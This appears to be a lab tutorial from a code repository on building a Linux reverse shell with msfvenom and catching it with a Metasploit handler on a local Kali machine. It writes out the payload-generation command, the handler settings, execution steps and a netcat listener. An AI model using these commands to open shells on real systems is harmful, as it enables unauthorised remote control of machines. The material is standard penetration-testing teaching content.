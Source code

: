 # Reverse Shell Setup Guide with msfvenom and Metasploit

This guide outlines how to create and execute a Linux reverse shell using `msfvenom` to generate the payload and Metasploit to handle the connection, tested on a single Kali Linux machine.

## Prerequisites

- Kali Linux with Metasploit Framework installed.
- Root or sudo access for network operations.
- Basic understanding of terminal commands.

## Step 1: Verify Network Configuration

1. **Check Your IP Address**:

   ```bash
   ip addr
   ```

   Identify your IP (e.g., `192.168.122.18` on `eth0`) or use `127.0.0.1` for loopback (local testing).

2. **Check Port Availability**: Ensure the chosen port (e.g., `4445`) is free:

   ```bash
   sudo lsof -i :4445
   ```

   If a process is using the port, kill it:

   ```bash
   sudo kill -9 <pid>
   ```

3. **Allow Port in Firewall** (if active):

   ```bash
   sudo ufw allow 4445/tcp
   ```

## Step 2: Generate the Reverse Shell Payload

Create a 64-bit Linux reverse shell payload with `msfvenom`:

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4445 -f elf > reverse_shell
```

- Replace `127.0.0.1` with your machine’s IP (e.g., `192.168.122.18`) if testing across machines.

- Make the file executable:

  ```bash
  chmod +x reverse_shell
  ```

## Step 3: Set Up the Metasploit Listener

1. Start Metasploit:

   ```bash
   msfconsole
   ```

2. Configure the handler to match the payload:

   ```
   use exploit/multi/handler
   set PAYLOAD linux/x64/shell_reverse_tcp
   set LHOST 127.0.0.1
   set LPORT 4445
   exploit
   ```

   - Use the same `LHOST` and `LPORT` as in the payload.
   - If binding fails, try `set LHOST 0.0.0.0` or a different port.

## Step 4: Execute the Reverse Shell

Run the payload:

```bash
./reverse_shell
```

The payload connects to the Metasploit listener, opening a shell session in the Metasploit console.

## Step 5: Interact with the Shell

In the Metasploit console, you should see:

```
[*] Command shell session 1 opened ...
```

Type commands like `whoami` or `id` to interact with the shell.

## Troubleshooting

- **Binding Failure**:

  - Check for port conflicts:

    ```bash
    sudo netstat -tulnp | grep 4445
    ```

  - Use a different port and regenerate the payload.

- **No Connection**:

  - Verify `LHOST` matches the listener’s IP.

  - Test connectivity:

    ```bash
    nc -zv 127.0.0.1 4445
    ```

- **Payload Crash**:

  - Debug with `gdb`:

    ```bash
    gdb ./reverse_shell
    run
    backtrace
    ```

## Notes

- Ensure the payload and handler use the same architecture (`x64`), IP, and port.
- For testing on different machines, ensure network reachability and proper firewall rules.
- Use Netcat (`nc -lvp 4445`) as an alternative listener to debug payload issues.
